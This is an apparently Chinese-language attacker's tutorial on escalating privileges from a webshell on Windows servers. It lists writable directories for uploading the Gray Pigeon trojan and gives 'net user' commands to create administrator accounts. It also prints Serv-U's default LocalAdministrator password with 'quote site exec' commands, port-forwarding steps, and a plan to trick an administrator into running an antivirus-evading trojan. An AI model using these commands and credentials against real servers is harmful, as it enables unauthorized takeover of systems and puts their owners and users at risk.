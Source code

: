 # 008
提权：

webshell 提权方法 服务器提权教程

一：首先检测一下网站的服务器是否开了 3389 
远程终端 
二：检测一下服务是否用了serv-u （还有是什么版本的） 
方法 
一：复制一个网站 用 3389 登陆器连接一下 （是否成功） 
能连接了，拿下服务器的机率，提高 30%了 
二：用ftp模式查下一个服务器的版本 
开始 -- 运行 -- cmd -- ftp (加你要登陆的网站) 
--------------------------------------------------------------------------------------- 
第一步：最简单的方法 
看有没有权限，能不能执行命令，行的话直接传个鸽子运行（成功率非常低） 
---------------------------------------------------------------------------------------- 
第二步：:寻找有执行的权限目录 
c:\winnt\system32\inetsrv\data\ 
c:\Documents and Settings\All Users\ 
c:\Program Files\serv-u\ 
C:\Program Files\Microsoft SQL Server\ 
这样的目录可以直接上传鸽子，运行 
----------------------------------------------------------------------------------- 
第三步：传个cmd和开帐号的ftp.exe上去直接加帐号 
命令就是你上传目录D:\VMware Workstation\cmd.exe "net user xiao xiao 
/add" 
----------------------------------------------------------------------------------- 
第四步：asp提权木马直接提权 
serv-u 6.3 版本 好象用asp提权木马（不成功） 
serv-u 6.2 版本 好象可以 
不过提权能不能用asp木马还要看服务器，设置的变态不 
假设直接用asp提权成功之后，还是不成功，但是可以在 
cmd之下 用这个帐号连接一下 
ftp (加你提权的网站) 
帐号：LocalAdministrator 密码：$ak#.1k;0@p">#1@$ak#.1k;0@p 
如果成功连接后就可以直接添加管理员帐号了 
命令：quote site exec (你添加的帐号) net user 123 123 /ad 
quote site exec （把帐号提升到最高权限） net localgroup administartors 
123 /add 
--------------------------------------------------------------------------------------- 
第五步：pcaanywhere 
C:\Documents and Settings\All Users\Application 
Data\Symantec\pcAnywhere\ 
这里下他的GIF文件，在本地安装pcanywhere上去 
网上很多教程 
--------------------------------------------------------------------------------------- 
第六步：serv-u覆盖提权 
本地安装个su，将你自己的ServUDaemon.ini文件用从他那下载下来的ServUDaemon.ini 
网上很多教程 
---------------------------------------------------------------------------------------- 
第七步：Serv-U转发端口 
给Latte加盐 曾经做个一个（serv-u经典提权全套教程）用到过这个方法，可以学习一下 
上传个端口转发工具 
命令：（工具名）–v –l 3333 –r 43958 127.0.0.1 
意思是将3333端口映射到43958端口上。 然后就可以在本地安装一个Serv-u，新建一个服务器， 
IP填对方IP，帐号为LocalAdministrator 
密码为$ak#.1k;0@p">#1@$ak#.1k;0@p， 
连接上后你就可以管理他的Serv-u了 
-------------------------------------------------------------------------------------------- 
第八步：社会工程学之提升提权 
把灰鸽子传到上面，然后转移到c盘，就等着管理员运行了，前提你的鸽子必须免杀 
要是让我看到一个不清楚的exe程序，老想点开看看，呵呵(估计没有那个SB会点吧)
